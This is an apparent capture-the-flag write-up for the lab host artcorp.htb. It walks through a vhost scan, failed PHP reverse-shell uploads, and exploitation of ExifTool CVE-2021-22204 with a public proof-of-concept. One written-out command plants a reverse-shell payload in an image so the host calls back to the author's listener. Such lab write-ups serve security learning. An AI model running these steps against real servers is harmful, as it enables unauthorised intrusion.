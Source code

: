 * netcat -z -n -v 10.129.100.189 80
* (UNKNOWN) \[10.129.100.189] 80 (http) open
* \*At this point, I was starting to get frustrated. I thought "There must be another vhost, let's run a vhost scan with Gobuster." \*\*

Gobuster Vhost Scan:

* "gobuster vhost -u artcorp.htb -w /usr/share/dnsrecon/namelist.txt"
* Wordlist from SecLists via[https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)
* Result:
* Found: dev01.artcorp.htb (Status: 200) \[Size: 247]
* Let's add dev01.artcorp.htb to our /etc/hosts file. dev01.artcorp.htb 10.129.100.189
* Upon navigating, we see "ArtCorp dev environment" "Currently applications in development" a link to an application named "MetaView" and below it, it says "\*Only applications ready to be tested are listed"
* When I clicked on the "MetaView" link, it redirects me to dev01.artcorp.htb/metaview/ and I see a File Upload page.
* This has to be where we can obtain our foothold!!!!!!
* Since we saw a lot of .php action above in our scans, can we use a Netcat listener and upload a php reverse shell here and gain access?
* At first, I attempted to use Pentest Monkey's PHP Reverse Shell ([https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)). Once I crafted it and started a Netcat listener, I ended up getting an error "File not allowed (only jpg/png).
* Obviously, we need to figure out how to bind a reverse shell to a picture file (jpg/png).
* In an attempt to bypass file extension sanitization, I tried to save the php-reverse-shell as a .png. This however, failed.
* Let's try to change the magic number of the file extension to FF D8 FF E0 at the start of the php-reverse-shell file using a hex tool. I used hexcurse (apt-get install hexcurse).\\
* I tried to upload this and still no shell, I however, ended up with a different error even though it did not work.
* Now, let's try to place a reverse shell into a photo's metadata. I found a Youtube video from Nullbyte where he uses ExifTool.
* None of my attempts worked. I even followed the entire video.
* However, I did notice when I tampered with the metadata of the image and placed my base64 encoded payload of the php reverse shell in it, I saw the string "ExifTool 12.16" in the output of the web app on MetaView.
* This output was also in a format that I recognized from the tool I just used in my own terminal window on my machine.
* This made me end up doing some research on ExifTool. There was a vulnerability discovered a few months ago that allows for RCE.
* This is CVE-2021-22204.

Foothold

* [https://github.com/AssassinUKG/CVE-2021-22204](https://github.com/AssassinUKG/CVE-2021-22204)
* This worked for me. I was able to start a Netcat listener on port 6969.
* The following syntax for the script/PoC that I found was:
* "bash [CVE-2021-22204.sh](http://cve-2021-22204.sh/) "reverseme 10.10.14.39 6969" istockphoto-868646936-612x612.jpg\_original" (istockphoto-868646936-612x612 is the name of the random picture of a penguin I downloaded on the Internet).
* I then went back to the MetaView webapp and uploaded this newly created image with the payload injected in it.
* Upon uploading, I go back to my Netcat listener and I GET A SHELL!!!
* Let's upgrade our shell!
* python3 -c 'import pty;pty.spawn("/bin/bash")'
* We then do a "cd /" to get to the root directory. However, when we go to /home, we see a username "thomas". Upon accessing this directory, we try to cat user.txt and get a permission denied.
* We must get become root or thomas to get access to this file.
* Privilege Escalation for User- Thomas:
  * I have linpeas on the target within /tmp.
  * A few things stood out but this did in particular.
  * I also may potentially have access to private ssh keys.